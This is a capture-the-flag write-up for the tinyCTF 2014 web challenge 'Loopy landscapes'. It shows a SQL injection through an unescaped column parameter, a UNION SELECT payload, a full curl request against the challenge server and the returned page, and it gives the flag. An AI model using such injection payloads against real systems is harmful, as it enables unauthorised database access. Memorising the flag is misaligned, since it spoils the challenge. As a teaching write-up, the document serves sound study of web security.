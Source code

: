 # tinyCTF 2014: What is Loopy landscapes?

**Category:** Web
**Points:** 200
**Description:**

> <http://54.69.118.120:8000/>

## Write-up

The `column` field on the website is vulnerable to SQL injection. It seems like the query being executed has the format:

```sql
SELECT name, park, country, height FROM rollercoaster WHERE $column LIKE %$value%;
```

…where `$column` is not escaped properly, but `$value` is.

After some manual fiddling, the final payload looks like this: `park = 0 AND 1=0 UNION ALL SELECT 1,hash,3,4 from flag#`.

```bash
$ curl --data "value=x&column=park%20%3D%200%20AND%201%3D0%20UNION%20ALL%20SELECT%201%2Chash%2C3%2C4%20from%20flag%23" 'http://54.69.118.120:8000/index.php'
<html>
    <head>
        <title>Archie's Roller Coaster Page</title>
        <link href='http://fonts.googleapis.com/css?family=EB+Garamond' rel='stylesheet' type='text/css'>
        <link rel="stylesheet" type="text/css" href="style.css"/>
    </head>
    <body>
        <div id="header">Archie's Coasters</div>
        <div id="search" class="whitebox">
            <form name="search" action="index.php" method="post">
                Search for
                <input name="value" type="text" placeholder="Search value"/>
                in
                <select name="column">
                    <option value="name">name</option>
                    <option value="park">park</option>
                    <option value="country">country</option>
                </select>
                <input type="submit" value="Go"/>
            </form>
        </div>
        <div id="content" class="whitebox">
            <table>
                <tr>
                    <th>
                        Name
                    </th>
                    <th>
                        Park
                    </th>
                    <th>
                        Country
                    </th>
                    <th>
                        Height
                    </th>

                </tr><tr><td>1</td><td>flag{unroll_those_loops}</td><td>3</td><td>4 m</td></tr></table>
        </div>
    </body>
</html>
```

The flag is `flag{unroll_those_loops}`.

## Other write-ups

* none yet
